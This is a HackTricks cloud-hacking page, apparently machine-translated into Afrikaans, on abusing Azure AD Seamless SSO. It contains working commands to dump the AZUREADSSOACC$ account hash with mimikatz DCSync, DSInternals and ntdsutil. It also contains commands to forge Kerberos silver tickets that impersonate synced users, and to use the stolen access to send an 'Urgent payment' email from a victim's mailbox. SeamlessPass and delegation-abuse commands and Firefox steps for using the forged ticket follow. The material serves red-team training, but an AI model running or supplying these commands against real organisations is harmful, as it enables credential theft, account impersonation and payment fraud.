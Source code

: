 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) teken outomaties **gebruikers in wanneer hulle op hul korporatiewe toestelle** wat aan jou korporatiewe netwerk gekoppel is. Wanneer geaktiveer, **hoef gebruikers nie hul wagwoorde in te tik om in te teken op Azure AD nie**, en gewoonlik, nie eens hul gebruikersname nie. Hierdie funksie bied jou gebruikers maklike toegang tot jou wolk-gebaseerde toepassings sonder om enige addisionele on-premises komponente te benodig.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Basies teken Azure AD Seamless SSO **gebruikers in** wanneer hulle **op 'n on-prem domein-verbonden PC** is.

Dit word ondersteun deur beide [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) en [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md).

Desktop SSO gebruik **Kerberos** vir verifikasie. Wanneer geconfigureer, skep Azure AD Connect 'n **rekenaarrekening genaamd AZUREADSSOACC`$`** in on-prem AD. Die wagwoord van die `AZUREADSSOACC$` rekening word **as plain-text na Azure AD gestuur** tydens die konfigurasie.

Die **Kerberos kaartjies** is **geënkripteer** met die **NTHash (MD4)** van die wagwoord en Azure AD gebruik die gestuurde wagwoord om die kaartjies te ontsleutel.

**Azure AD** stel 'n **eindpunt** (https://autologon.microsoftazuread-sso.com) beskikbaar wat Kerberos **kaartjies** aanvaar. Die blaaiert van die domein-verbonden masjien stuur die kaartjies na hierdie eindpunt vir SSO.

### On-prem -> cloud

Die **wagwoord** van die gebruiker **`AZUREADSSOACC$` verander nooit**. Daarom kan 'n domein admin die **hash van hierdie rekening** kompromitteer, en dit dan gebruik om **silwer kaartjies** te skep om met **enige on-prem gebruiker gesinkroniseer** aan Azure te verbind:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Met die hash kan jy nou **silwer kaartjies genereer**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Om die silwer kaartjie te gebruik, moet die volgende stappe uitgevoer word:

1. **Begin die Blaaier:** Mozilla Firefox moet gelaai word.
2. **Konfigureer die Blaaier:**
* Navigeer na **`about:config`**.
* Stel die voorkeur vir [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) na die gespesifiseerde [waardes](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Toegang tot die Webtoepassing:**
* Besoek 'n webtoepassing wat geïntegreer is met die organisasie se AAD-domein. 'n Algemene voorbeeld is [Office 365](https://portal.office.com/).
4. **Verifikasieproses:**
* By die aanmeldskerm moet die gebruikersnaam ingevoer word, terwyl die wagwoordveld leeg gelaat word.
* Om voort te gaan, druk óf TAB óf ENTER.

{% hint style="success" %}
Dit omseil nie MFA as dit geaktiveer is nie
{% endhint %}

#### Opsie 2 sonder dcsync - SeamlessPass

Dit is ook moontlik om hierdie aanval **sonder 'n dcsync-aanval** uit te voer om meer stil te wees soos [in hierdie blogpos verduidelik](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Hiervoor het jy net een van die volgende nodig:

* **'n Gecompromitteerde gebruiker se TGT:** Selfs al het jy nie een nie, maar die gebruiker was gecompromitteer, kan jy een kry deur die vals TGT-delegasie truuk wat in baie gereedskap soos [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) en [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9) geïmplementeer is.
* **Goue Kaartjie**: As jy die KRBTGT-sleutel het, kan jy die TGT wat jy vir die aangevalde gebruiker nodig het, skep.
* **'n Gecompromitteerde gebruiker se NTLM-hash of AES-sleutel:** SeamlessPass sal met die domeinbeheerder kommunikeer met hierdie inligting om die TGT te genereer.
* **AZUREADSSOACC$ rekening NTLM-hash of AES-sleutel:** Met hierdie inligting en die gebruiker se Veiligheidsidentifiseerder (SID) om aan te val, is dit moontlik om 'n dienskaartjie te skep en met die wolk te verifieer (soos in die vorige metode uitgevoer).

Laastens, met die TGT is dit moontlik om die gereedskap [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) te gebruik met:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Verder inligting om Firefox te stel om met naatlose SSO te werk, kan [**in hierdie blogpos gevind word**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/).

#### ~~Skep Kerberos-tickets vir slegs-cloud gebruikers~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

As die Active Directory-administrateurs toegang tot Azure AD Connect het, kan hulle **SID vir enige cloud-gebruiker stel**. Op hierdie manier kan Kerberos **tickets** ook **vir slegs-cloud gebruikers geskep word**. Die enigste vereiste is dat die SID 'n behoorlike [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) is.

{% hint style="danger" %}
Die verandering van SID van slegs-cloud admin gebruikers is nou **geblokkeer deur Microsoft**.\
Vir inligting, kyk [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via Hulpbron-gebaseerde Beperkte Afvaardiging <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Enigeen wat rekenaarrekeninge (`AZUREADSSOACC$`) in die houer of OU waarin hierdie rekening is, kan **'n hulpbron-gebaseerde beperkte afvaardiging oor die rekening konfigureer en dit toegang gee**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ek is in jou wolk, lees almal se e-posse - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
